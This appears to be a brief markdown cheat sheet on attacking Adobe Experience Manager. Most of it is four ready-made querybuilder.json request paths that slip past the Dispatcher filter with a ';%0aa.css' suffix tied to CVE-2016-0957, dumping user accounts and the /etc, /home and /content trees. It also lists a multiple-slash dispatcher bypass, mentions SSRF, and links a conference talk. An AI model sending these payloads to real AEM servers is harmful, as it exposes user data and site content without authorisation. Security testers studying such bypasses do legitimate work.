

# Adobe Experience Manager(AEM) Hack
## payload
```
/bin/querybuilder.json.;%0aa.css?p.hits=full&property=rep:authorizableId&type=rep:User

/bin/querybuilder.json.;%0aa.css?path=/etc&p.hits=full&p.limit=-1

/bin/querybuilder.json.;%0Aa.css?path=/home&p.hits=full&p.limit=-1

/bin/querybuilder.json.;%0Aa.css?path=/content&p.hits=full&p.limit=-1
```
## CVE-2016-0957

## Bypass dispatcher
1.   Add multiple slashes
```
• ///etc.json instead of /etc.json
• ///bin///querybuilder.json instead of /bin/querybuilder.json
```
2. SSRF
 
# Refence
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps 